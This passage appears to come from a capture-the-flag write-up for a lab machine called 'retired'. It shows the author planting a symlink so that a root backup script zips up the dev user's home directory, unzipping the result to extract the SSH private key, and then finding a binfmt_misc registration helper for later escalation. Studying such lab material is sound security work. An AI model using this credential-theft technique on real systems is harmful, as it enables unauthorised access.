 This thing backs up the entire `/var/www/html` directory and zips it. This is exploitable because we can create a symlink to the entire `/home/dev` directory within the backup file.

```
www-data@retired:/var/www/html$ ln -s /home/dev/ file
```

Then we wait for the script to run again, and unzip the latest file:

```
www-data@retired:/var/www$ unzip 2023-05-11_05-07-01-html.zip
<TRUNCATED>
inflating: var/www/html/file/.ssh/id_rsa.pub  
inflating: var/www/html/file/.ssh/authorized_keys  
inflating: var/www/html/file/.ssh/id_rsa
<TRUNCATED>
```

We can see that it works, and now we can grab the user's private key and `ssh` in. We can then grab the user flag.

### Emuemu

Within the user's directory, there's an `emuemu` folder:

```
dev@retired:~$ ls
activate_license  emuemu  user.txt

dev@retired:~/emuemu$ ls -la
total 68
drwx------ 3 dev dev  4096 Mar 11  2022 .
drwx------ 6 dev dev  4096 Mar 11  2022 ..
-rw------- 1 dev dev   673 Oct 13  2021 Makefile
-rw------- 1 dev dev   228 Oct 13  2021 README.md
-rw------- 1 dev dev 16608 Oct 13  2021 emuemu
-rw------- 1 dev dev   168 Oct 13  2021 emuemu.c
-rw------- 1 dev dev 16864 Oct 13  2021 reg_helper
-rw------- 1 dev dev   502 Oct 13  2021 reg_helper.c
drwx------ 2 dev dev  4096 Mar 11  2022 test
```

The contents of `reg_helper.c` is rather interesting:

```c
int main(void) {
    char cmd[512] = { 0 };

    read(STDIN_FILENO, cmd, sizeof(cmd)); cmd[-1] = 0;

    int fd = open("/proc/sys/fs/binfmt_misc/register", O_WRONLY);
    if (-1 == fd)
        perror("open");
    if (write(fd, cmd, strnlen(cmd,sizeof(cmd))) == -1)
        perror("write");
    if (close(fd) == -1)
        perror("close");

    return 0;
}
```
